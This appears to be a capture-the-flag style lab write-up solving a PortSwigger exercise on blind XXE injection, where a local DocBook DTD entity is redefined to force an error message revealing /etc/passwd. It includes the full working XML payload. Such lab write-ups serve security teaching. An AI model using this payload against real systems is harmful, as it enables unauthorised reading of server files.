


# Exploiting XXE to retrieve data by repurposing a local DTD
# Objective
 This lab has a "Check stock" feature that parses XML input but does not display the result.\
To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.\
You'll need to reference an existing DTD file on the server and redefine an entity from it. \
Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso`.

# Solution
## Analysis
Application has a `Check stock` feature. Data from client to server is sent in XML format.

||
|:--:| 
| *Check stock request* |

## Exploitation
Attacker may attempt to repurpose a local DTD - when application uses both internal (data provided in request by attacker) and external DTD file (that is local to the application server) attacker may try to redefine entity from external DTD. This may relax restriction on using an XML parameter entity within the definition of another parameter entity.

[Full Portswigger description](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd)

Full payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>4</productId><storeId>1</storeId></stockCheck>
```

||
|:--:| 
| *XXE injection with repurposing a local DTD* |

